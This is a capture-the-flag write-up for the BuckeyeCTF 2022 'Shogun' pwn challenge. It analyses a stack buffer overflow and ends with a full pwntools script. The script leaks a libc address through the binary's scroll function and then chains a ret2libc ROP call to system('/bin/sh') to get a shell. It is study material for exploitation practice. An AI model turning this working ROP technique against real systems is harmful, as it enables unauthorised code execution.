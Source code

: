 # BuckeyeCTF 2022 Shogun | Thomas Spencer

> Category: `pwn` | Difficulty: `medium`

# Recon

## File

```
shogun: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0c6ef59275fd0386ecdccf02d6838d327ed11b61, for GNU/Linux 3.2.0, not stripped
```

## Checksec 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no Canary means we'll likely have to ROP, perhaps ret2libc

# Functions

## scroll

* Will take a `char\*` as input.

* Will slowly print out the inputted string, one character at a time

## Encounter

* Prints out a string of story flavor text

* Takes user input

    * Obvious buffer overflow, size 32 buffer with size 81 read using `fgets()`

## main

* Prints some story text

* Takes in user input

    * Checks to see if start of user input is `"Look around."`

    * If it is not, we die

    * If it is, we enter `encounter`


# Vulnerabilites

* Buffer overflow in `encounter` function

    * Large enough to allow for ROP

* No canaries or PIE, meaning we can ROP without stack data leaks

# Plan of Attack

* `ret2libc` attack, because we have an easy stack overflow into ROP vector.

**ISSUE**: Normally for `ret2libc` ROP, we would use a `Puts(Puts)` to leak a GOT table entry to find out where `libc` is. However, there is no `puts` reference in the GOT of the binary.

Must use another means to leak information...

We can use the `scroll` function, since it acts like puts!

# Exploit

* ... enter `encounter` function

* ROP to leak a GOT entry with the `scroll` function

* Use the leak to perform a `ret2libc` and grab a shell

# Final Script

```python
#!/bin/env python3

from pwn import *

DEBUG = True
FILE = "./shogun"
HOST = "pwn.chall.pwnoh.io"
PORT = 13373

POP_RDI_RET = 0x401383
RET = 0x40101a
PUTCHAR_GOT = 0x403FC0
BINSH = 0x1b45bd

context.arch = "amd64"
context.encoding = "latin"
warnings.simplefilter("ignore")

elf = ELF(FILE)
rop = ROP(FILE)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([FILE]) if (DEBUG) else remote(HOST, PORT)

BUFFER_SIZE = 0x20

print(p.recvuntil(b'disturbance. ').decode())
p.sendline(b'Look around.')
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(PUTCHAR_GOT)
payload += p64(elf.symbols["scroll"])
payload += p64(elf.symbols["_start"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.send(payload)

putCharPtr = p.recvuntil(b'You finally')[:6]
print(putCharPtr.hex())
putCharInt = int.from_bytes(putCharPtr, "little", signed=False)

libcBase = putCharInt - 0x86280

print(hex(putCharInt))

p.sendline(b'Look around.')
print(p.recvuntil(b'disturbance. ').decode())
print(p.clean().decode())
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(libcBase + BINSH)
payload += p64(libcBase + libc.symbols["system"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.sendline(payload)

p.interactive()

p.close()
```

